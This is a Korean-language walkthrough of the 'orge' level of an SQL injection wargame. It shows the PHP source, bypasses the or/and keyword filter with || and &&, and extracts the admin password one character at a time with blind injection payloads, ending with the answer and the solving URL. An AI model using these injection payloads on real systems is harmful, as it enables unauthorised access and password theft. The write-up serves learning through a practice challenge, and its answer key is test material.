




# **LOS orge**

##  **Keys**
>php source
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```
`4. LOS orc` 문제와 비슷하다. 하지만 `or` 와 `and` 를 검사한다. 이것은 `||` 와 `%26%26` 을 이용하여 우회할 수 있다.  
설명은 생략하고 바로 문제풀이를 하겠다.

>`pw` 길이 알아내기

`select id from prob_orge where id='guest' and pw='' || id='admin' && length(pw)=8#'`



>`pw` 알아내기

* 6

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,1,1))=54#'`


* c

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,2,1))=99#'`


* 8

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,3,1))=56#'`


* 6

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,4,1))=54#'`



* 4

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,5,1))=52#'`



* d

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,6,1))=100#'`


* e

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,7,1))=101#'`


* c

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,8,1))=99#'`


##  **Query**
>Query
```php
select id from prob_orge where id='guest' and pw='6c864dec'
```

>Input value
```
http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=6c864dec
```

##  **Attack**
